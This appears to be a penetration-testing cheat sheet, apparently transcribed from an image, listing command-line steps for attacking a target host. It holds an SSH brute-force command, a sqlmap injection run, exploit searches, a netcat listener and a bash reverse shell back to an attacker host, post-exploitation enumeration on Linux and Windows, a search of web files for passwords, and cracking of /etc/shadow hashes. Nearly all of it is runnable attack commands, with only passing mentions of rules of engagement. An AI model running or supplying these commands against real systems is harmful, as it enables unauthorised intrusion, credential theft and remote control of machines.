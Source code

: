 Credential attacks (as permitted)
```
# Build custom wordlist from site content
cewl -d 2 -m 5 http://$TGT -w loot/cewl.txt

# SSH brute force (timebox, respect ROE)
hydra -L users.txt -P passwords.txt -t 4 -I -f ssh://$TGT
```

SQL injection example (if parameter discovered)
```
sqlmap -u "http://$TGT/vuln.php?id=1" --batch --risk=2 --level=2 --dbs -o
```

Search for known exploits
```
# From identified versions in nmap output
searchsploit vsftpd 2.3.4
searchsploit "Apache 2.4" | head
```

Shells and listeners
```
# Netcat listener
rlwrap nc -lvnp 4444

# Linux bash reverse shell (run on target if RCE)
bash -c 'bash -i >& /dev/tcp/'"$LHOST"'/4444 0>&1'

# Upgrade TTY
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm; stty rows 50 cols 190
```

Local post-exploitation (Linux)
```
id; uname -a; ip a
sudo -l
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
grep -R "password" /var/www -n 2>/dev/null | head
```

Local post-exploitation (Windows)
```
whoami /all
systeminfo
ipconfig /all
wmic qfe get HotFixID,InstalledOn
net user
net localgroup administrators
```

Hash cracking (example)
```
# /etc/shadow + /etc/passwd -> unshadow
unshadow passwd.txt shadow.txt > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
